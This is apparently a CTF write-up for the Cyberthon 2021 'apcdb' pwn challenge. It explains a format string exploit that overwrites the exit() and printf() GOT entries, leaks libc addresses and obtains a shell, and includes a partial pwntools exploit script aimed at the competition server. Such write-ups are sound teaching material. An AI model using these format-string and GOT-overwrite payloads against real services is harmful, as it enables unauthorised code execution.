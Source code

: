 In fact there are only two key differences:
- Lack of format string in `printf()` is a telltale sign of **Format String Exploit**.
    - We can use this to once again **leak LIBC version**
- You can only leak **one** address.

### Leaking LIBC
Ideally when **leaking LIBC**, we want multiple addresses in a **single** connection.

This is because **LIBC** files are **PIE** meaning that their addresses are merely offsets added to a **random** `base address`.

If you instead retrieve addresses from **multiple** connections, the **PIE bases** are most definitely different, and you (probably) cannot use that to retrieve **LIBC version** from [libc.blukat.me](https://libc.blukat.me)

We can overcome this simply by overwriting the [GOT entry](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) of the `exit()` function, since **partial RELRO** security allows us to overwrite `.got.plt`.

This will in effect give us a never-ending loop, which is great because now we can do whatever we want >:))).

For example, leaking our **LIBC addresses** as usual!

### The Exploit
After we leak some nice addresses we will shove them into [libc.blukat.me](https://libc.blukat.me) to get our dearest libc version:

![](/assets/Images/Cyberthon-2021/apcdb_libc.png)

(During the actual competition I forgot to change my connection to the `remote` server, which resulted in some very fun times as I tried to figure out why my offsets were pointing me to a wrong **LIBC address**. Be careful kids!)

And after that, as you can see on the right, it is absolutely trivial to get shell.

We just need to overwrite the [GOT entry](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) of `printf()` to our `system()` offset, after which we pass `"/bin/sh\x00"` in to call our shell program!

(Sidenote: I tried using `str_bin_sh`, but I got an absolutely dysfunctional shell which I spent debugging until the scoreboard was frozen :PPP)

Here's the code used to carry out the exploit:
```python
from pwn import *
r=remote("aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg",30201)
# We leak the LIBC addresses as described here:
# https://github.com/VulnHub/ctf-writeups/blob/master/2016/sctf/pwn2.md
binary=ELF("./apcdb")
context.arch="amd64"
inp_offset=6
payload=fmtstr_payload(inp_offset, {binary.got["exit"]:0x40083f})
r.sendline(payload)
r.recvuntil("Lookup: ")
r.recvuntil("Lookup: ")
r.sendline(b"%7$s"+b"A"*4+p64(binary.got["printf"])) 
# Align it properly or you die!
# Don't be like me in stacktheflags!
r.recvuntil("for ")
# print(r.recvuntil("...")[:-10].ljust(8,b'\x00'))
printf=u64(r.recvuntil("...")[:-10].ljust(8,b'\x00'))
print(hex(printf))
r.recvuntil("Lookup: ")
r.sendline(b"%7$s"+b"A"*4+p64(binary.got["__libc_start_main"]))
# Align it properly or you die!
# Don't be like me in stacktheflags!
r.recvuntil("for ")
```